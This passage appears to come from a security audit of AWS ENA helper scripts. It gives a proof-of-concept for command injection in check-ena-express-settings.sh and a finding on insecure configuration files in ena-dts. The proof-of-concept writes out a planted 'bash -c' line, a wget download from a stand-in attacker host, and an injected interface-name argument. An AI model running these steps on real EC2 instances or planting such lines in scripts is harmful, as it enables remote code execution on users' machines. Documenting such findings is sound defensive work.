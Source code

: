     2. **Social Engineering Scenario:**
        1. **Prerequisites:**
            - Access to an AWS EC2 instance where the user can download and execute scripts.
            - A publicly accessible copy of the original `check-ena-express-settings.sh` script.
            - An attacker-controlled server to host the modified malicious script.
        2. **Steps:**
            - **Attacker Side:**
                a. Download the original `check-ena-express-settings.sh` script.
                b. Modify the script to introduce a command injection payload (optional - can also exploit original). For example, change the line `check_eth_mtu() {` to:
                   ```bash
                   check_eth_mtu() {
                     local interface=${1}
                     bash -c "${1}" # Injected command execution
                     local mtu=$(ip link show ${interface} | awk '{print $5}')
                   ```
                c. Host the modified script on an attacker-controlled server (e.g., `https://attacker.example/malicious-check-ena-express-settings.sh`).

            - **Victim Side (AWS User):**
                a. On an EC2 instance, download the script (potentially malicious) using `wget https://attacker.example/malicious-check-ena-express-settings.sh -O check-ena-express-settings.sh` (or use the original script if exploiting directly).
                b. Make the script executable: `chmod +x check-ena-express-settings.sh`.
                c. Execute the script with a malicious interface name designed to trigger command injection, for example: `./check-ena-express-settings.sh "eth0; touch /tmp/pwned;"`.

        3. **Expected Result:**
            - A file named `pwned` should be created in the `/tmp/` directory of the EC2 instance, indicating successful command injection.
        4. **Cleanup:**
            - Remove the `/tmp/pwned` file from the EC2 instance.
            - Remove the downloaded script from the EC2 instance.


### Vulnerability: Insecure File Handling in `ena-dts/tools/setup.py` and `ena-dts/framework/dts.py`

- **Description:**
    1. The `setup.py` script writes configuration data to files like `DTS_CRBS_CFG`, `DTS_EXEC_CFG`, `DTS_IXIA_CFG`, and `DTS_PORTS_CFG`.
    2. The `dts.py` framework and potentially other scripts might read and process these configuration files.
    3. If these configuration files are created in world-writable directories or if file permissions are not correctly set, other users on the EC2 instance could potentially modify these files.
    4. If an attacker modifies these configuration files to point to malicious resources (e.g., compromised repositories, malicious patches, or altered execution paths), or inject malicious data, it could compromise the DTS execution environment.
    5. For example, an attacker could modify `execution.cfg` to point to a malicious DPDK repository or alter patch paths, leading to the download and application of malicious code during the setup process.

- **Impact:**
    - Impact is medium to high. If configuration files are insecurely handled, an attacker could potentially inject malicious code into the DTS setup process or alter the execution flow.
    - Depending on the specific vulnerability introduced via file modification, this could lead to privilege escalation (if setup scripts are run with elevated privileges) or other forms of compromise, including supply chain style attacks during setup.

